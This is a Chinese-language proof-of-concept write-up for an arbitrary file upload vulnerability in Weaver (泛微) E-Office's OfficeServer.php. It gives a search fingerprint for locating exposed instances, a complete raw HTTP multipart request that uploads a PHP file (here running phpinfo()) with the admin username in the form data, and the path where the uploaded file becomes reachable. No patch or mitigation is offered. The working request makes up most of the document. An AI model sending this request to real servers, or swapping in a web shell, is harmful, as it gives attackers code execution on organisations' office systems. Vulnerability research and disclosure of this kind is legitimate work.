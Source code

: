 # 泛微OA E-Office OfficeServer.php 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office OfficeServer.php 存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器敏感信息

## 漏洞影响

```
泛微OA E-Office
```

## 网络测绘

```
"eoffice10"
```

## 漏洞复现

登录页面

![image-20221008102546649](./images/202210081025897.png)

验证POC

```
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 990
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLpoiBFy4ANA8daew
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FileData";filename="test.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FormData"

{'USERNAME':'admin','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'}
------WebKitFormBoundaryLpoiBFy4ANA8daew--
```

![image-20221008102607520](./images/202210081026579.png)

文件上传位置

```
/eoffice10/server/public/iWebOffice2015/Document/test.php
```

![image-20221008102621829](./images/202210081026917.png)